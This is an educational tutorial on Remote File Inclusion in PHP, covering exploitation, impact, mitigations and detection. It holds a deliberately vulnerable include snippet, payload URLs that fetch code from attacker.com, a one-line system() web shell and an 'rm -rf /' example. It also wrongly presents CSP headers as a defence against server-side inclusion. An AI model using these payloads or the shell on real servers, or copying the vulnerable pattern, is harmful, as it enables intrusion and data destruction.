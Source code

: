 <br>

# Remote File Inclusion (RFI)
Remote File Inclusion (RFI) is **a web security vulnerability that allows an attacker to include and execute a remote file on a web server by manipulating user input**. Although RFI was historically a significant threat, it is less common today due to better secure coding practices and restrictions in modern web environments.

## 1. How Remote File Inclusion Works
RFI occurs when a web application **dynamically includes files based on user input without proper validation or sanitization**. This vulnerability allows attackers to include malicious files hosted on remote servers.

### Vulnerable Code Example  

```
<?php
    $file = $_GET['file'];
    include($file);
?>
```

### Input URL  

```
http://example.com/index.php?file=http://attacker.com/malicious.php
```

### What Happens
  - The application fetches http://attacker.com/malicious.php.
  - The included file executes as part of the server’s PHP script, potentially compromising the system.


## 2. Why RFI Is Less Common Today
### 1. Modern PHP Settings
- By default, modern versions of PHP **disable the allow_url_include directive**.
- This prevents inclusion of remote files via functions like include() or require().
- Example (disabled in php.ini)  

```
allow_url_include = Off
```

### 2. Secure Coding Practices
- Increased awareness of input sanitization and validation has reduced RFI vulnerabilities.

### 3. Content Security Policy (CSP)
- Modern web applications **enforce CSP headers**, restricting the inclusion of untrusted scripts and resources.
### 4. Prevalence of Local File Inclusion (LFI)
- Attackers often exploit LFI, which is more common and easier to find.


## 3. Exploitation Techniques

### a. File Inclusion
- Inject a remote file containing malicious code (e.g., a **web shell**).
- Example Payload  

```
http://example.com/index.php?file=http://attacker.com/shell.php
```

### b. Code Execution
- Execute PHP code directly through a remotely included file.
- Example  
  - http://attacker.com/shell.php contains:  

```
<?php system($_GET['cmd']); ?>
```

  - Access via  

```
http://example.com/index.php?file=http://attacker.com/shell.php&cmd=id
```

### c. Information Gathering
- Attackers may include remote files to **exfiltrate sensitive data**.


## 4. Potential Impact of RFI
### 1. Code Execution
  - Remote files containing PHP or server-side code can execute arbitrary commands.
  - Example  

```
<?php
system('rm -rf /');
?>
```

### 2. Data Exfiltration
  - Steal sensitive data such as database credentials or user information.

### 3. Privilege Escalation
  - Gain elevated privileges by injecting scripts that exploit local configurations.

### 4. Web Shell Deployment
  - Install persistent backdoors for ongoing access.


## 5. Mitigation Techniques
### 1. Disable Remote File Inclusion
  - **Set allow_url_include to Off in php.ini**  

```
allow_url_include = Off
```

### 2. Sanitize and Validate Input
  - Restrict user input to a predefined whitelist of acceptable files.
  - Example (PHP)  

```
$allowed_files = ['home.php', 'about.php', 'contact.php'];
if (in_array($_GET['file'], $allowed_files)) {
    include($_GET['file']);
} else {
    die("Access Denied");
}
```

### 3. Use Secure File Inclusion
  - Always **use static paths** or resolve files locally.
  - Example  

```
include('pages/' . basename($_GET['file']));
```

### 4. Restrict File Permissions
  - Limit access to sensitive files and directories on the server.

### 5. Content Security Policy (CSP)
  - **Enforce CSP headers** to restrict external script and resource inclusion:  

```
Content-Security-Policy: script-src 'self';
```

### 6. Web Application Firewalls (WAF)
  - **Use WAFs** to block suspicious patterns indicative of RFI attacks (e.g., URLs in file parameters).


## 6. Tools for Detection
### 1. Burp Suite
  - Test for RFI vulnerabilities by sending malicious file inclusion payloads.

### 2. OWASP ZAP
  - Automated scanning for RFI in web applications.

### 3. Nikto
  - A web server scanner that detects RFI vulnerabilities.

### 4. Manual Testing
  - Use payloads like:  

```
http://example.com/index.php?file=http://attacker.com/malicious.php
```


## 7. Real-World Example

### Case Study: RFI in PHP Applications
  - An old PHP application dynamically included files based on user input.
  - An attacker injected  

```
http://example.com/index.php?file=http://attacker.com/malicious.php
```

  - The malicious file installed a web shell, allowing the attacker to execute arbitrary commands, upload additional scripts, and exfiltrate sensitive data.


## 8. Summary

| Aspect | Details |
| ------ | ------- |
| What is RFI? | Vulnerability allowing inclusion of remote files via user input. |
| Impact | Code execution, data theft, web shell installation, privilege escalation. |
| Why Less Common? | Modern PHP disables allow_url_include; better coding practices. |
| Prevention Techniques | Disable allow_url_include, validate input, enforce CSP, use WAF. |
| Tools for Detection | Burp Suite, OWASP ZAP, manual payload testing. |

**While Remote File Inclusion (RFI) is less common today due to improved server and application configurations, it remains a critical vulnerability for legacy systems and poorly configured applications**. By adopting **secure coding practices**, **validating user input**, and leveraging **server-side restrictions**, organizations can effectively mitigate the risks associated with RFI.  
<br>